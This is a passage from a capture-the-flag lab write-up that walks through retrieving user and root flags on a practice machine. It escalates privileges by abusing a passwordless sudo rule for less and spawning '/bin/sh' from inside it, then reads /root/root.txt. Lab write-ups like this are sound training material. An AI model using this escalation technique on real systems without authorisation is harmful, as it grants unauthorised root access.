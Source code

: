 Actually the **user.txt** in this current directory **is not the real flag**, so we need to check if there are other user:
```
$ ls /home
0day_vuln1  npt-vuln1
```

Yeah looks like the **user.txt** maybe in **npt-vuln1** directory.
```
$ cat /home/npt-vuln1/user.txt
```

<details><summary><b>🏳️ user.txt</b></summary></details><br>

## Privilege Escalation

To privilege to **root**, first try to check the **sudo permissions** by using the command:
```
$ sudo -l
.
.
.

User 0day_vuln1 may run the following commands on 0day:
    (ALL) NOPASSWD: /usr/bin/less
```

Looks like **we can run less without password here**. Try to check how to **exploit less to gain root privilege**. From [GTFOBins - less](https://gtfobins.github.io/gtfobins/less/), in **SUDO** section, we can get to root by running the command:
```
$ sudo /usr/bin/less /etc/profile
```

Then in the file, type the line below and enter:
```
!/bin/sh
```

Now we already get the root access, read the **root.txt**:
```
# whoami
root

# cat /root/root.txt
```

<details><summary><b>🏳️ root.txt</b></summary></details><br>

## 🏳️ Bonus Flags

For the **first bonus flag**, actually it is located in the **"ftp_flag.txt"** file that we have retrieved before.

<details><summary><b>🏳️ First Bonus Flag</b></summary></details><br>

For the **second and third bonus flag**, you can try use the command below to make it easy to search:
```
# find / -name *.txt 2>/dev/null
```
